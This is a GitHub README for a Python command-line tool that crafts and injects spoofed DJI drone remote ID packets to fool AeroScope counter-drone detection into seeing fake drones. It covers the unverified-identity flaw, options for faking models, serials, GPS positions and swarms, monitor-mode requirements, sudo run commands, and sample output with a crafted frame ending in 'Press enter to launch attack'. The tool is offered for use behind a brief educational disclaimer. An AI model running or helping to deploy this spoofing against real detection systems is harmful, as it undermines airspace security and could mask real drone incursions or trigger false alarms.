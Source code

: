 # DJI Drone Spoof Attack
A Python command-line tool to spoof DJI drones, tricking c-UAV detection systems like AeroScope (as of May 2022)

## Background
[DJI AeroScope](https://www.dji.com/aeroscope) systems do not verify the validity of drone remote ID packets, making them susceptible to over-the-air spoofing attacks. An attacker equipped with a network adapter in monitor mode can craft and inject spoofed drone remote ID packets, fooling the AeroScope system into detecting fake drones.

These over-the-air spoofing attacks cannot be mitigated because they exploit an inherent design flaw in DJI’s remote identification technology—**the lack of identity verification**.

## Tool Overview
This Python script enables attackers to create spoofed DJI drone remote ID packets, including:

* **Model:** customize fake drone models
* **Packet Type:** choose between different remote ID packet types
* **Altitude & Height:** specify values to simulate drone movements
* **GPS Coordinates:** spoof drone and ground station locations
* **Swarm Attack:** simulate a coordinated swarm of drones (`--swarm`)

The spoofed packets are saved in a packet capture `.pcap` file, allowing for analysis or replay attacks. 

The tool supports the generation of various packet types, including[^1]:

* Generic License Plate (serial number only)
* Enhanced Wi-Fi packets
* OcuSync packets

## Disclaimer
This tool is intended for educational purposes only. Do not use it for illegal activities, and always respect local regulations regarding drone usage and airspace security.

## Requirements
To run this tool, you'll need:

* Python dependencies: `scapy`, `binascii`, etc.
* Network adapter: capable of being set to monitor mode on channel 6 via `airmon-ng` package

## Usage

### Basic Command
`sudo python3 dji_spoof.py`

If no drone specified, the script will default to Inspire 1 with legitimate random serial numbers. 

### Help Menu
`sudo python3 dji_spoof.py -h`

This displays all possible command-line arguments:

```
A DJI Remote ID spoofer for UAVs.

optional arguments:
  -h, --help            show this help message and exit
  -m MODEL, --model MODEL
                        Specify the DJI model number to spoof (Inspire 1 is default).
                        A legitimate random serial number will be generated per model.

  -i INTERFACE, --interface INTERFACE
                        the network interface to launch attacks
  --packet PACKET       Input the packet type:

                            0: Generic License Plate (serial number only, not model)
                            2: Enhanced Wi-Fi
                            3: OcuSync (SDR)

  --altitude ALTITUDE   Input the altitude of the drone
  --height HEIGHT       Input the height of the drone
  --DRONE_LON DRONE_LON
                        Input the longitude of the drone
  --DRONE_LAT DRONE_LAT
                        Input the latitude of the drone
  --CONTROLLER_LON CONTROLLER_LON
                        Input the longitude of the controller
  --CONTROLLER_LAT CONTROLLER_LAT
                        Input the latitude of the controller
  --swarm               Flag to enable a swarm drone attack on the AeroScope
  --pcap PCAP           Save the attack as a .pcap file
```

### Spoofed Inspire 1 Example
```
[+] MODEL: Inspire 1
[+] SERIAL NO.: W215AAOZCSAFUJ34
[+] DRONE HEIGHT: 22.4
[+] DRONE LONGITUDE: -110.012052
[+] DRONE LATITUDE: 35.294722
[+] CONTROLLER LONGITUDE: -95.957371
[+] CONTROLLER LATITUDE: 35.284722
[+] PACKET TYPE: Enhanced Wi-Fi (2)

====================== Frame =========================
0000  00 00 08 00 00 00 00 00 80 00 00 00 FF FF FF FF  ................
0010  FF FF 01 02 03 04 05 06 01 02 03 04 05 06 00 00  ................
0020  00 08 36 52 53 47 4E 4A 57 35 01 04 01 05 07 09  ..6RSGNJW5......
0030  03 01 0B DD 52 26 37 12 58 62 13 10 01 41 00 DF  ....R&7.Xb...A..
0040  0F 57 32 31 35 41 41 4F 5A 43 53 41 46 55 4A 33  .W215AAOZCSAFUJ3
0050  34 2B 05 DB FE DB FE 5D 00 81 00 E0 00 43 00 B8  4+.....].....C..
0060  00 3E 00 D9 00 75 00 17 00 38 73 00 FF 09 F8 5D  .>...u...8s....]
0070  00 01 12 35 37 36 39 36 33 39 33 39 32 34 32 39  ...5769639392429
0080  39 31 31 31 31 00 00                             91111..

[*] Press enter to launch attack...
```

## Licensing
This project is licensed under the terms of the MIT license.

[^1]: https://www.researchgate.net/profile/Margaret-Smith-18/publication/372509234_The_Irregulars_Third-Party_Cyber_Actors_and_Digital_Resistance_Movements_in_the_Ukraine_Conflict/links/660bddad10ca867987365aff/The-Irregulars-Third-Party-Cyber-Actors-and-Digital-Resistance-Movements-in-the-Ukraine-Conflict.pdf#page=295
